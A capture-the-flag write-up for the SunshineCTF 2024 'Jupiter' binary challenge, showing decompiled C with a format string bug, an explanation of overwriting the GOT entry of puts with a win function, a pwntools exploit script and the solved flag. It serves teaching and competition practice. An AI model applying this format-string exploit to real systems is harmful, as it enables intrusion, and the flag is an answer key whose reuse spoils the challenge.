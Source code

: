 # Jupiter
> ### Category: I-95
>
> Do boys or girls go here?
>
> `nc 2024.sunshinectf.games 24609`
>
> ### Attachments
> `jupiter`

## Solution
The binary has no ASLR, no RELRO and there's a `win` function. Looking at `func0` (called from `main`) it's easy to notice a format string vulnerability:
```c
void func0(void) {
  long in_FS_OFFSET;
  char local_78 [104];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  printf("What\'s Jupiter\'s best beach?? ");
  fgets(local_78,99,stdin);
  printf(local_78);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Simply use it to overwrite the address of `puts` in GOT with the address of `win` (`puts` is called in `main` once more after `func0`). Don't bother writing the payload yourself, use [`fmtstr_payload`](https://docs.pwntools.com/en/stable/fmtstr.html#pwnlib.fmtstr.fmtstr_payload) from `pwntools`.

## Script
```py
from gdb_plus import *

FILENAME = './jupiter'
PORT = 24609

e = ELF(FILENAME)
dbg = Debugger(FILENAME, script='init-gef').remote('2024.sunshinectf.games', PORT)
io = dbg.p
dbg.c(wait=False)

io.sendlineafter(b'FL? ', b'0xdeadc0de') # some random check

writes = {
    e.got['puts']: e.sym['win']
}

payload = fmtstr_payload(6, writes) # the string is on top of the stack, so it's the 6th argument
io.sendlineafter(b'?? ', payload)
io.interactive() # :)
```

## Flag
`sun{What is this the dragon with a sword is showing us...? Wait isn't this like a previous chall?}`